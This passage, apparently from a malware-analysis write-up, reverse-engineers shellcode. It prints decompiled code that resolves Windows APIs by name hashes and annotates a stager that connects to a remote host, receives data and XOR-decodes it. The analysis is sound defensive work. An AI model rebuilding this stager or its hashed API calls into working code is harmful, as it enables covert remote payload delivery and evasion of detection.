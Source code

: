 ```c
            c = *func_name_ptr;
            funcsum = (funcsum >> 0xd | funcsum << 0x13) + c;
            func_name_ptr = func_name_ptr + 1;
        } while (c != 0);

        // If export's name checksum + module name checksum == parameter, call it.
        if (funcsum + dllnamesum == checksum) {
            (*(*(exports_dir->AddressOfFunctions + base_address +
                (nameCount & 0xffff0000 | *(exports_dir->AddressOfNameOrdinals + base_address + nameCount * 2))
                * 4) + base_address))();
            return;
        }
    }
}
```

This reveals that our mysterious function is calling exports by a hash code! We can build a mapping of known hash codes to functions, by writing a C# program that takes every single DLL in `C:\Windows\System32`, parses the PE headers, and computes the hash code of every single export that they define. An implementation of such a program can be found [here](HashToFunction.cs). Disclaimer: It uses AsmResolver to do the PE parsing, so it is a bit of self-advertisement :).

Making heads and tails of the shell code
----------------------------------------

We know that the return address is used as an address to call exports by a hash code. We also have constructed a mapping from hashes. All that is left is simply annotating everything in the original code:

```c
void shellmain(void)
{
    /* ... */
                    /* LoadLibrary("ws2_32.dll") */
    (*pCallByChecksum)(0x726774c,&uStack4);
                    /* WSAStartup */
    (*pCallByChecksum)(0x6b8029,400,&stack0xfffffe64);
                    /* WSASocketA */
    socket = (*pCallByChecksum)(0xe0df0fea);
    i = 5;
    /* ... */
    do {
        /* ... */
                    /* connect */                                
        *(puVar2 + -0x10) = 0x6174a599;
        /* ... */
        ptr = (*pCallByChecksum)(*(puVar2 + -0x10),*(puVar2 + -0xc),*(puVar2 + -8),*(puVar2 + -4));
        if (ptr == 0x0) goto LAB_00000234;
        i = i + -1;
        puVar1 = puVar2 + -0x10;
    } while (i != 0);
    puVar3 = puVar2 + -0x14;
                    /* ExitProcess */
    *(puVar2 + -0x14) = 0x56a2b5f0;
    /* ... */
    (*pCallByChecksum)(*(puVar2 + -0x14));
LAB_00000234:
    /* ... */
                    /* recv */
    *(puVar3 + -0x14) = 0x5fc8d902;
    /* ... */
    (*pCallByChecksum)(*(puVar3 + -0x14),*(puVar3 + -0x10),*(puVar3 + -0xc),*(puVar3 + -8),*(puVar3 + -4));
    size = puVar6 ^ 0x524f584b;
```